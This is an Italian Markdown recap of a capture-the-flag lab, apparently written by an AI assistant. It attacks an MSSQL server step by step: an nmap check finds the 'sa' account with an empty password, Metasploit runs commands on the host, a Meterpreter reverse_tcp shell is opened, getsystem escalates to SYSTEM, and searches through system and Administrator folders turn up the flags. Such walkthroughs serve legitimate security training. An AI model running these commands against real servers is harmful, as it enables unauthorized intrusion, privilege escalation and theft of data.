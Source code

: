 Ecco un riepilogo in Markdown di tutti i passaggi che abbiamo eseguito:

````markdown
# Riepilogo Lab MSSQL CTF

## 1. Scansione iniziale con Nmap
- Comando:
  ```bash
  nmap -p1433 --script ms-sql-empty-password target.ine.local
````

* Risultato:

  * Utente `sa` con **password vuota** → login SQL Server riuscito.

## 2. Recupero Flag 1 con Metasploit (`mssql_exec`)

* Caricamento modulo:

  ```bash
  use auxiliary/admin/mssql/mssql_exec
  set RHOSTS target.ine.local
  set RPORT 1433
  set USERNAME sa
  set PASSWORD ""
  set DBNAME master
  ```
* Elenco file “flag” e lettura in un colpo solo:

  ```bash
  set CMD cmd.exe /c "type C:\flag1.txt & type C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt"
  run
  ```
* Output:

  * Contenuto di `C:\flag1.txt`
  * Contenuto di `C:\Windows\System32\drivers\etc\EscaltePrivilageToGetThisFlag.txt`

## 3. Privilege Escalation a SYSTEM

* **Metodo Meterpreter + getsystem**:
  1\.

  ```bash
  use exploit/windows/mssql/mssql_payload
  set PAYLOAD windows/x64/meterpreter/reverse_tcp
  set LHOST <tuo_IP_Kali>
  set LPORT 4444
  run
  ```

  2. ```bash
     sessions -i <ID_sessione>
     meterpreter > getsystem
     meterpreter > shell
     ```
* Ora abbiamo permessi **NT AUTHORITY\SYSTEM**.

## 4. Recupero Flag 2 (Windows config)

* Dal prompt Windows (`cmd.exe` in sessione SYSTEM):

  ```bat
  C:\> findstr /S /I /P "flag" "C:\Windows\System32\config\*.*"
  ```
* Lettura file trovato:

  ```bat
  C:\> type "C:\Windows\System32\config\<nome_file_trovato>"
  ```

## 5. Recupero Flag 4 (Administrator)

* Sempre dal prompt SYSTEM:

  ```bat
  C:\> findstr /S /I /P "flag" "C:\Users\Administrator\*.*"
  ```
* Lettura file trovato:

  ```bat
  C:\> type "C:\Users\Administrator\<percorso_file_trovato>"
  ```

---

Con questi passaggi abbiamo:

1. **Identificato** `sa` senza password
2. **Recuperato** Flag 1
3. **Escalato** a SYSTEM
4. **Cercato** e **letto** Flag 2 nella cartella di configurazione
5. **Cercato** e **letto** Flag 4 nella cartella Administrator

